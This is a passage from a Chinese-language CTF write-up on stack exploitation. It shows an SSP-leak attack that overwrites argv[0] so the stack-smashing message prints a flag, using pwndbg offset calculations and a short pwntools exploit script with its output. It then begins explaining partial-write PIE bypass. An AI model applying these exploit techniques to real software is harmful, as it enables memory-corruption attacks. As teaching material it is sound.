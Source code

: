  ```java 
  开启了ASLR，并且可以知道程序将flag.txt的flag值存放在了char v5 //[rsp+20h] [rbp-110h]中，这看起来与题目二相似，可以使用其思路，但是vmmap发现这没有动态编译，那么此思路就pass掉，再去找其他的办法，百思不得其解时，运行一下程序，发现会输出一个地址，回过头去看代码才发现因自己的知识储备太少，没有注意到prinf的中%p的是匹配的哪。


  ``` 
  
pwn@pwn-PC:~/Desktop$ ./xpl Interesting data loaded at 0x7ffe65dfcfd0Your username? 
源码： printf((unsigned __int64)"Interesting data loaded at %p\nYour username? "); 
调试： 0x4010d9 <main+123> lea rax, [rbp - 0x110] 0x4010e0 <main+130> mov rsi, rax 0x4010e3 <main+133> mov edi, 0x493b28 0x4010e8 <main+138> mov eax, 0 ► 0x4010ed <main+143> call printf <0x408770> format: 0x493b28 ◂— 'Interesting data loaded at %p\nYour username? ' vararg: 0x7fffffffcc00 ◂— 'flag{stack_smash}\n' 
0x4010f2 <main+148> mov edi, 0 0x4010f7 <main+153> call fflush <0x408c90> 
0x4010fc <main+158> lea rax, [rbp - 0x90] 0x401103 <main+165> mov edx, 0x400 0x401108 <main+170> mov rsi, rax────────────────────────[ STACK ]────────────────────────00:0000│ rsp 0x7fffffffcbe0 —▸ 0x7fffffffcdf8 —▸ 0x7fffffffd0d6 ◂— '/home/pwn/Desktop/xpl'01:0008│ 0x7fffffffcbe8 ◂— 0x10000000002:0010│ 0x7fffffffcbf0 ◂— 0x003:0018│ 0x7fffffffcbf8 —▸ 0x6c7d40 ◂— 0x004:0020│ rsi 0x7fffffffcc00 ◂— 'flag{stack_smash}\n'05:0028│ 0x7fffffffcc08 ◂— 'ck_smash}\n'06:0030│ 0x7fffffffcc10 ◂— 0xa7d /* '}\n' */07:0038│ 0x7fffffffcc18 —▸ 0x401840 (__libc_csu_fini) ◂— push rbx 
 
 ```java 
  发现程序一开始输出的地址，就是v5所在的栈地址，也就是flag的地址，步骤如下：
找到__libc_argv[0]的地址：


  ``` 
  
43:0218│ rsi 0x7fffffffcdf8 —▸ 0x7fffffffd0d6 ◂— '/home/pwn/Desktop/xpl' 
 
 ```java 
  计算出偏移量：


  ``` 
  
pwndbg> i r rbprbp 0x7fffffffcd10 0x7fffffffcd10pwndbg> x /gx 0x7fffffffcd10-0x900x7fffffffcc80: 0x000000037ffffa00pwndbg> distance 0x7fffffffcc80 0x7fffffffcdf80x7fffffffcc80->0x7fffffffcdf8 is 0x178 bytes (0x2f words) 
 
 ```java 
  获取flag：



  ``` 
  
from pwn import * 
sh = process('./xpl')data = sh.recvuntil("username?")address = p64(int(data.split()[4], 16))sh.send("A"*0x178 + address)print sh.recvline() 
pwn@pwn-PC:~/Desktop$ python exp.py [+] Starting local process './xpl': pid 4363 *** stack smashing detected ***: flag{stack_smash} 
 
 ```java 
  # partial write
根据前面的内容可以知道在开启ASLR+PIE的后，每次加载的地址是在一定的范围随机变化的，只不过由于内存页为0x1000空间大小的限制和加载后相对偏移不会变的缘故，造成了加载后的地址的最后一个半字节长度的内容是不变的。
partial write则是利用了这一点，内存是以页载入机制，如果开启PIE保护的话，只能影响到单个内存页，一个内存页大小为0x1000，那么就意味着不管地址怎么变，某一条指令的后三位十六进制数的地址是始终不变的，因此我们可以��过覆盖地址的后几位来可以控制程序的执行流。
另外，partial overwrite不仅仅可以用在栈上，同样可以用在其它随机化的场景。比如堆的随机化，由于堆起始地址低字节一定是0x00，也可以通过覆盖低位来控制堆上的偏移。

# 题目一
2018年安恒杯中babypie题，因为wiki中给的不是一个二进制文件，因此自己重新编译。



  ``` 
  